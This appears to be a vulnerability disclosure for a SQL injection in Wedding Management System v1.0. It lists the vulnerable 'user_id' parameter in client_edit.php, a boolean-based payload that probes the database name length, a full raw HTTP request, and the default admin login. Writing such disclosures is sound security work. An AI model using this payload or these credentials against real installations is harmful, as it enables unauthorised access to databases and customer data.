 # Wedding Management System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/admin/client_edit.php?booking=31&user_id=

Vulnerability location: /Wedding-Management/admin/client_edit.php?booking=31&user_id=,user_id

[+] Payload: /Wedding-Management/admin/client_edit.php?booking=31&user_id=31%20and%20length%20(database())%20=9 // Leak place ---> user_id

Current database name: dbwedding,length is 9

```sql
GET /Wedding-Management/admin/client_edit.php?booking=31&user_id=31%20and%20length%20(database())%20=9 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 8, Content-Length: 14701

![image](https://user-images.githubusercontent.com/54017627/167992100-dbb3bab5-b424-4589-a197-0f31f553c65c.png)

![image](https://user-images.githubusercontent.com/54017627/167992026-9a68a2d4-cf6f-42d1-8843-0a6207a73a21.png)

When length (database ()) = 9, Content-Length: 14095

![image](https://user-images.githubusercontent.com/54017627/167992069-91098888-9733-4927-9ee5-da6a031f4279.png)

![image](https://user-images.githubusercontent.com/54017627/167992038-bd21be92-c19e-43a2-9d42-60815c3ab9b4.png)

